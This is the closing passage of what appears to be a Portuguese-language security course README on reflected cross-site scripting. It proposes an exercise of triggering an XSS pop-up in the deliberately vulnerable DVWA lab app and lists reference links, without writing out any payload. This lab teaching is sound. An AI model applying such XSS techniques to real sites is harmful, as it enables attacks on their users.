

5. Agora é so testar as opções e se divertir!


## Prática Proposta

Instalar o DVWA e realizar um XSS Reflected, fazendo surgir um pop-up, apresentando o nome do aluno, printar esta tela e postar no Git Hub.


## Referências

https://imasters.com.br/devsecops/5-formas-para-prevenir-os-ataques-xss

https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

https://www.incapsula.com/web-application-security/reflected-xss-attacks.html

http://www.redesegura.com.br/2012/01/saiba-mais-sobre-o-cross-site-scripting-xss/

https://www.youtube.com/watch?v=OVLz6RgOjIY

https://medium.com/@GustavoOliveira/xss-cross-site-scripting-ae5fe11b0f2e

https://portswigger.net/kb/issues/00200300_cross-site-scripting-reflected

https://github.com/ethicalhack3r/DVWA
